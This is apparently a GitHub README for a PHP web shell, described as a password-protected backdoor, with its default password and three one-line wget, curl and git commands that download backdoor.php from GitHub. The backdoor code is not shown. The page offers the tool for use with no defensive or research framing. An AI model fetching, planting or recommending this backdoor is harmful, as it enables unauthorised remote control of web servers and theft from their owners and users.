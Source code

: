 # WebShell 

This is a simple backdoor protected with a password written in PHP. You can change the value of the $PASSWD variable in the PhpBindShell.php file and put whatever you wan't, but remember : if you loose the password, you loose the shell.

**Default Password :** ``P@ssw0rd``
 
 
# Download :
Here is some one liner to download it easely :
```bash
wget https://raw.githubusercontent.com/sornram9254/WebShell/main/backdoor.php  
```
```bash
curl -so backdoor.php https://raw.githubusercontent.com/sornram9254/WebShell/main/backdoor.php 
```
```bash
git clone https://github.com/sornram9254/WebShell.git && mv WebShell/backdoor.php ./ && rm -rf WebShell/
```

# Result



https://user-images.githubusercontent.com/106782577/177163113-b9b04ccb-5326-40a2-908d-0669e68ba571.mp4

